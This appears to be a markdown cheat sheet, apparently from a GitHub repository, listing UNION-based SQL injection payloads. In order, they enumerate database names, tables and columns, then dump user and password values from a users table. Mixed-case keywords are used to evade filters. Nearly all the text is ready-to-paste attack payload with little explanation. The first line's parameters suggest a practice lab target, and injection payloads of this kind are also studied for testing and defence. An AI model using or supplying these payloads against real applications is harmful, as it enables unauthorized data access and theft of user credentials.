





### Extract database name

```sql
id=1 union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata&Submit=Submit
```



### Extract tables from database

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema=database()
```



### Extract column name from database

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```



### Extract column name from database with tablename

GET Data like **Table_Name:ColumnName**

```sql
union select 1, gRoUp_cOncaT(table_name, 0x3a, column_name)
from information_schema.columns
where table_schema=database()
group by table_name
```

#### Explanation:

- `table_name`: Represents the name of the table.
- `0x3a`: Hexadecimal for `:` to separate the table name from the column name.
- `column_name`: Represents the column name.
- `group by table_name`: Ensures that you concatenate columns for each table.

This query should return the `tablename:columnname` format as desired.



### EXTRACT data from table

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```


